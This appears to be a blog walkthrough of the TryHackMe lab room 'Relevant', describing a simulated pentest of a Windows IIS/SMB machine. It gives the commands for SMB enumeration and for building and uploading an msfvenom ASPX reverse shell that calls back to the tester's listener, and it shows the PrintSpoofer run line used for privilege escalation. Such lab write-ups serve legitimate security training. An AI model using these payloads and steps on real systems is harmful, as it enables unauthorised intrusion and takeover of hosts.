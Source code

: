 ```yaml
---
slug: relevant-walkthrough
title: TryHackMe - Relevant - Walkthrough
authors: bw
tags: [learning, relevant, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [Relevant][relevant]. Let’s get started!

# Overview
This room is laid out about as similar to a real-world pentest that a THM room can be. It comes with a Scope of Work (SOW) that you need to read through and follow. As the room states, it would be beneficial to treat this as a real pentest, and write a report on it. I won’t be doing that in this walkthrough, but I will do that on my own. I may post the report in a separate posting.

# User Flag
Since this is a black box test, let’s start with `rustscan`. This tool can be found [here][rustscan]. This tool will first scan the server, then pass the open ports into `nmap` for output.

Command: `rustscan -a <machine_ip> -- -A -Pn`

![r1](/static/img/thm/relevant/r1-1.png)

As you can see, we have a web-server, SMB, and RDP ports open on this box. We also see 49663 port open with an IIS service.. We have a possible OS of Windows Server 2016 SE 14393.

Let’s checkout the port 80 web-server first!

![r2](/static/img/thm/relevant/r2.webp)

We are met by an extremely blue default Windows IIS page. `nmap` gave a version of `httpd 10.0` that we can research exploits on. SMB also seems like a good route to go. Let’s enumerate smb with `smbclient`. This tool should be pre-installed on your Kali instance. If not, run `sudo apt install smbclient`

Let’s run it with this command:

`smbclient -L \\\\<machine_ip>`

Just press **Enter** when prompted for a password

![r3](/static/img/thm/relevant/r3.png)

We can see there are a few directories listed. Can we connect to any? We can connect to `IPC$` with `smbclient \\\\<machine_ip>\\IPC$`. However, we get the following error:

`NT_STATUS_INVALID_INFO_CLASS listing \*`

Let’s try the last one: `nt4wrksv`

Success! `ls` the directory and we see `passwords.txt`

![r4](/static/img/thm/relevant/r4.png)

Let’s view the file. `get passwords.txt`

Now we have 2 encoded passwords. Let’s decode them! Head to [base64decode.org][base64] to decode both of the strings.

Now, we have 2 usernames and passwords. You may have tried to login, enumerate more, etc with these 2 usernames and passwords. Well, this is what we call a **honeypot**. This was put in place by the creator of the room to trick us and waste our time. Job well done! This is a dead end.

Let’s go back to other options of getting in. We haven’t checked out the website, other than visiting it. Let’s enumerate directories!

`dirsearch -u http://<machine_ip> -E -x 400,500 -r -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

We didn’t find anything there. Let’s try the webserver on port 49663. Same default page, but what about a dirsearch?

![r9](/static/img/thm/relevant/r9.webp)

Looks like there is a directory with the same name as the smb share that we found earlier. Let’s see if it is connected to the share we were in.

![r5](/static/img/thm/relevant/r5.png)

This is good! Now, can we upload files? In a terminal, connect to the smb share and try to upload a file. `put file.txt`

![r6](/static/img/thm/relevant/r6.png)

SUCCESS! Alright, now how can we exploit this? Let’s craft a payload with `msfvenom`!

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<thm_ip> LPORT=1234 -f aspx -o shell.aspx
```

Now upload the file to the SMB client. Start a `netcat` listener: `nc -lvnp 1234`. Now curl the file: `curl http://<machine_ip>/nt4wrksv/shell.aspx`

![r7](/static/img/thm/relevant/r7.png)

Now navigate to a user folder to get the `user.txt` flag.

![r8](/static/img/thm/relevant/r8.png)

#Root Flag
Now we need to find a way to do privilege escalation on this machine. Let’s start by going through our permissions. I like to follow this [Checklist][payloads].

When you run: `whoami /priv` we find something interesting.

![r11](/static/img/thm/relevant/r11.png)

I found this [write-up][printspoof-w]. Let’s try this exploit! Exploit can be found [here][printspoof-e]. However, we need this to be compiled. You can compile this yourself, or just download the .exe [here][comp-print].

Get the file onto the system and then run: `PrintSpoofer.exe -i -c cmd`

![r12](/static/img/thm/relevant/r12.png)

Now get the root flag!

![r13](/static/img/thm/relevant/r13.png)

# Review
I thought this was an excellent room. It tested my skills and even caught me with that wonderful honeypot! I thought the creator of the room did a great job at keeping the room interesting and not having the normal points of entry!

# References
[TryHackMe][thm] | [Relevant Room][relevant] | [rustscan][rustscan] | [base64decode.org][base64] | [PayloadsAllTheThings WinPrivEsc Checklist][payloads] | [PrintSpoofer Write-Up][printspoof-w] | [PrintSpoofer Exploit][printspoof-e] | [Compiled PrintSpoofer.exe][comp-print]

[thm]: https://tryhackme.com
[relevant]: https://tryhackme.com/r/room/relevant
[rustscan]: https://github.com/RustScan/RustScan
[base64]: https://www.base64decode.org
[payloads]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#user-enumeration
[printspoof-w]: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
[printspoof-e]: https://github.com/itm4n/PrintSpoofer
[comp-print]: https://github.com/dievus/printspoofer